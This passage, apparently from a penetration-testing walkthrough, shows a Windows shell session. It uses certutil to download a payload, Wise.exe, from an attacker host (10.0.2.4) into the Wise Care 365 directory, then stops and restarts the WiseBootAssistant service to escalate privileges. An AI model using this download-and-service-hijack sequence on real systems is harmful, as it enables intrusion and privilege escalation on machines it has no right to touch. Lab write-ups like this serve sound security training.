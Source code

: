 ```bash

c:\Program Files (x86)>cd Wise
cd Wise

c:\Program Files (x86)\Wise>certutil -urlcache -f http://10.0.2.4/Wise.exe Wise.exe
certutil -urlcache -f http://10.0.2.4/Wise.exe Wise.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\Program Files (x86)\Wise>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1067-CB24

 Directory of c:\Program Files (x86)\Wise

01/26/2024  11:11 AM    <DIR>          .
01/26/2024  11:11 AM    <DIR>          ..
08/14/2021  04:34 AM    <DIR>          Wise Care 365
01/26/2024  11:11 AM             7,168 Wise.exe
               1 File(s)          7,168 bytes
               3 Dir(s)  11,068,026,880 bytes free

c:\Program Files (x86)\Wise>sc stop WiseBootAssistant
sc stop WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x1388

c:\Program Files (x86)\Wise>sc query WiseBootAssistant
sc query WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

c:\Program Files (x86)\Wise>sc start WiseBootAssistant
sc start WiseBootAssistant
```

So a couple of things happened here. We moved over to the `Program Files (x86)` directory. 
